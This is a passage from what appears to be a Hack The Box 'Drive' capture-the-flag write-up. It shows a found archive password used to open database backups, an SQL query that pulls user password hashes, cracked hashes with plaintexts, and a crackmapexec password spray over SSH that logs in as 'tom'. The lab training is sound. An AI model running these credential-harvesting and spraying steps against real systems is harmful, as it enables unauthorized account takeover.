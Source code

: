 <img src="/assets/img/htb/drive/Capture7.JPG" alt="commit">
This commit shows info about making the backups and we got the password to extract the archived backups
when i extract the backup in backups directory i get error as i have no permissions here, so i move the backups to `/dev/shm` which is a traditional shared memory and extracted them their using for example this command `7z e -p'H@ckThisP@ssW0rDIfY0uC@n:)' /dev/shm/1_Sep_db_backup.sqlite3.7z -o/dev/shm/Sep.db.sqlite3`

the backups are sqlite3 databases and after digging into them you will find the treasures here `select username,password from accounts_customuser;` and this because the instances have some changes in the passwords so we will take them and crack them offline as done before.

The user tomHands is the one whose password is changed between the backup instances and here are all hashes with there hash cracking output

```bash
tomHands:sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141:johniscool
tomHands:sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7
tomHands:sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john316
tomHands:sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93:john boy
```

from `/etc/passwd` we know that there's a user called `tom` and we are trying to get a shell as tom so let's try ssh using all these passwords

```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/drive]
└─$ crackmapexec ssh 10.10.11.235 -u tom -p passwdTom
SSH         10.10.11.235    22     10.10.11.235     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
SSH         10.10.11.235    22     10.10.11.235     [-] tom:johniscool Authentication failed.
SSH         10.10.11.235    22     10.10.11.235     [+] tom:johnmayer7 
```
